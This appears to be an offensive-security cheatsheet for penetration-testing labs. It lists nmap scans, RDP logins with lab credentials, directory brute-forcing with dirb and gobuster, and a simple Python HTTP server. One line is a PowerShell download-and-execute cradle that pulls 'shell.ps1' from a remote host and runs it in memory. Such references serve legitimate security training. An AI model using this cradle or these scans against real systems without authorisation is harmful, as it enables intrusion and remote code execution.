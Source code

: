 # Offensive Security Cheatsheet

# Connecting to Systems

## NMAP


`sudo nmap -sV -sC -oA nmap 10.10.44.178`

`sudo nmap -p- -v  -oA nmap 10.10.44.178`

`sudo nmap -Pn -sV -sC -p- -oA nmap 10.10.44.178`

`sudo nmap -sV -O 5.5.5.5`

## Windows RDP  

- `remmina` - GUI 
- `rdesktop 10.11.0.22 -u offsec -p lab -g 1024x768 -x 0x80`
- can be used if rdesktop gives cert errors `xfreerdp /u:Wade /v:10.10.10.10:3389`

# Simple Python Server

`python -m SimpleHTTPServer 4444`

# Usedful Windows 

- Invoke PowerShell in memory from remote server.
- `IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10:8000/shell.ps1')`

# Network Scan

- `nmap -T4 -p- -A -Pn 10.10.10.10`
- `nmap -sC -sV -oA nmap/initial -vvv 10.10.10.10` shows default scripts, versions, outputs all formats, and shows the ports as soon as they're discoverd. 

# Web App Enum
## DIRB
Run non recursively with common word list  

- `dirb http://192.168.200.10 -r`

## GoBuster

- `/opt/gobuster/gobuster -u http://10.10.10.10 -w /usr/share/wordlsits/dirbuster/directory-list-2.3-medium.txt`
- `/opt/gobuster/gobuster -u http://10.10.10.10 -w /usr/share/wordlsits/dirbuster/directory-list-2.3-medium.txt -k -x txt,php -o output.log`
